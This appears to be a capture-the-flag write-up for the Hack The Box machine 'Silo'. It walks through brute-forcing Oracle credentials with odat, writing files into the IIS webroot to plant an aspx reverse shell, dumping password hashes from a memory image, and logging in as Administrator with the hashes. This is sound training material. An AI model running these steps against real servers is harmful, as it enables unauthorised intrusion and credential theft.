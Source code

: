 ```yaml
---
title: HTB [Silo]
date: 2023-02-01 01:28:05 +0200
categories: [windows,oracle,RoguePotato,forensics,hashdump]
tags: [HACKTHEBOX MACHINES]
excerpt: Silo is Medium machine in HackTheBox which involves oracle db default creds bruteforce for initial foothold and we can root this box in multiple ways
---
```


![](https://i.imgur.com/ATp3gas.png)

## RECON

### Port scan
```js
PORT      STATE SERVICE      REASON  VERSION
80/tcp    open  http         syn-ack Microsoft IIS httpd 8.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds syn-ack Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   syn-ack Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC
49155/tcp open  msrpc        syn-ack Microsoft Windows RPC
49159/tcp open  oracle-tns   syn-ack Oracle TNS listener (requires service name)
49160/tcp open  msrpc        syn-ack Microsoft Windows RPC
49161/tcp open  msrpc        syn-ack Microsoft Windows RPC
49162/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 33342/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 52707/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 38458/udp): CLEAN (Timeout)
|   Check 4 (port 10413/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   3.0.2:
|_    Message signing enabled but not required
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
|_clock-skew: mean: -5h29m57s, deviation: 0s, median: -5h29m58s
| smb2-time:
|   date: 2023-01-25T13:12:32
|_  start_date: 2023-01-25T12:38:06
```

- `80` Runs Default IIS server , port `1521` seems Interesting, it's Oracle TNS Listener


### SMB Enumeration

- `enum4linux` , `smbmap` , `rpcclient` not worked, because of the authentication error

## INITIAL FOOTHOLD 

#### ORACLE


- A quick googling revealed there are bunch of ways to enumerate this, I'll go with this [boohacktricks method](https://book.hacktricks.xyz/network-services-pentesting/1521-1522-1529-pentesting-oracle-listener#all-in-one)
- Brute-force the SID with [odat](https://github.com/quentinhardy/odat.git) tool

![](https://i.imgur.com/1cyGq9y.png)

- Found a valid SID -> `XE`
- Next let's use the password guesser to find the username and password

![](https://i.imgur.com/y7nd67o.png)

- We're using small letter file, coz the default one has bunch of CAPITAL LETTERS and that doesn't work :)
- With the creds, I'm going to login with `sqlplus`

```js
sqlplus scott/tiger@10.10.10.82/XE
```

- Refer [this post](https://www.geeksforgeeks.org/how-to-install-sqlplus-on-linux/) for the installation

![](https://i.imgur.com/GOJTusj.png)

- For more privs let's use `as sysdba` in our sqlplus command to enter as system database administrator (like sudo)

```js
sqlplus scott/tiger@10.10.10.82/XE as sysdba
```

![](https://i.imgur.com/nqAqFvR.png)

- Now we have more privilleges
- Looks like we can read/write files using this
- If you check the help command of the `odat` tool, you can see `utlfile           to download/upload/delete files`
- So, let's try to download the home page of the webserver
- If it works we can upload a aspx file there to get a rev shell, ezpz

#### READ/WRITE with odat

- The default root of the IIS server is located at `C:\inetpub\wwwroot`, let's try to read the `iisstart.htm` file there

![](https://i.imgur.com/NhZzfqj.png)

```js
python3 odat.py utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --getFile "C:\inetpub\wwwroot" "iisstart.htm" "/home/kali/htb/boxes/silo/www/iisstart.htm"
```

- We can able to read the files
- Now let's try to put a file named `jo.txt` with the contents `we can write here ezpz`

![](https://i.imgur.com/vijUMBg.png)

```js
python3 odat.py utlfile -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --putFile "C:\inetpub\wwwroot" "jo.txt" "jo.txt"
```

- Cool it's working
- Now let's upload a [aspx rev shell](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx)

![](https://i.imgur.com/Do1gZ2G.png)

- We got shell!!
- Grab the user.txt located in `C:\Users\Phineas\Desktop`

## PRIVESC

![](https://i.imgur.com/dena0ag.png)

- Viewing this file gives a link to download a memory dump and the password for the link
- Let's download this and load it in volatility 
- But the password didn't work, due to some encoding issues, So let's upload a webshell and view the contents of the file there

![](https://i.imgur.com/BvgvlCK.png)

- Here we got a different password `£%Hm8646uC$` , `£` is not displayed properly in our terminal

![](https://i.imgur.com/7810tdd.png)

- Now let's download this memory dump

#### Dumping Hashes

![](https://i.imgur.com/NRDSSHD.png)

- We can use the hashdump plugin to get the hashesh from the memory dump

```c
User	        rid	lmhash	   							nthash
Administrator	500	aad3b435b51404eeaad3b435b51404ee	9e730375b7cbcebf74ae46481e07b0c7
Guest	        501	aad3b435b51404eeaad3b435b51404ee	31d6cfe0d16ae931b73c59d7e0c089c0
Phineas	       1002	aad3b435b51404eeaad3b435b51404ee	8eacdd67b77749e65d3b3d5c110b0969
```

![](https://i.imgur.com/zgwCDDg.png)

- Finally we can use evil-winrm to login as Administrator


#### Other ways to root


##### RoguePotato

![](https://i.imgur.com/5puxtpa.png)

- We have `SeImpersonatePrivilege` so we can use **RoguePotato** to privesc as Admin
- I covered that method in my [remote htb writeup](https://jopraveen.github.io/remote-htb/#privesc) 


##### Oracle

![](https://i.imgur.com/a3XwFZG.png)

- Since oracle is running as system privilleges we can use that odat tool to read the root.txt, ezpz

![](https://i.imgur.com/qE710KV.png)

- That's all cya soon in my next writeup :)